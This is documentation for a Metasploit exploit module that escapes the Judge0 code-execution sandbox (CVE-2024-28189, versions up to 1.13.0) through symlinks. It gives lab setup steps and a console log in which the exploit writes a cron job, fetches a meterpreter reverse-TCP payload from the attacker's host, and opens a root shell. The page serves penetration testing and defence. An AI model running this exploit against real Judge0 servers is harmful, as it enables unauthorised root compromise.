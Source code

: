 ## Vulnerable Application

Judge0 does not account for symlinks placed inside the sandbox directory,
which can be leveraged by an attacker to write to arbitrary files and gain code execution outside of the sandbox.

The vulnerability affects:

    * Judge0 <= 1.13.0

This module was successfully tested on:

    * Judge0(v1.13.0) installed with Docker on Ubuntu 20.0.4


### Installation

1. (Optional) Set cgroup to v1
```bash
  sudo nano /etc/default/grub
  # add this line at the top, and save:
  GRUB_CMDLINE_LINUX="systemd.unified_cgroup_hierarchy=0"
  sudo update-grub
  sudo reboot
```

2. Install Judge0
```bash
  wget https://github.com/judge0/judge0/releases/download/v1.13.0/judge0-v1.13.0.zip
  unzip judge0-v1.13.0.zip
  cd judge0-v1.13.0
```

3. Start Judge0
```bash
  docker compose up
```

4. (Optional) When Judge0 does not work, try this
```bash
  docker compose up --force-recreate server
```


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/judge0_sandbox_escape_cve_2024_28189`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options


## Scenarios
```
msf6 > use exploit/linux/http/judge0_sandbox_escape_cve_2024_28189
[*] Using configured payload cmd/linux/http/x64/meterpreter_reverse_tcp
msf6 exploit(linux/http/judge0_sandbox_escape_cve_2024_28189) > options

Module options (exploit/linux/http/judge0_sandbox_escape_cve_2024_28189):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    2358             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      JRzyWcrcJ        no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST                                yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/judge0_sandbox_escape_cve_2024_28189) > run lhost=192.168.56.1 rhost=192.168.56.15

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Version 1.13.0 detected, which is vulnerable
[+] The target appears to be vulnerable.
[*] Writing cron job to /etc/cron.d/dUTuziNy
[*] Use language: 77, COBOL (GnuCOBOL 2.2)
[+] Deleted /etc/cron.d/dUTuziNy
[+] Deleted /root/SVENuNNy
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.15:49024) at 2024-10-29 12:56:04 +0900

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.18.0.5
OS           : Debian 10.2 (Linux 5.4.0-196-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/root
meterpreter > 
```
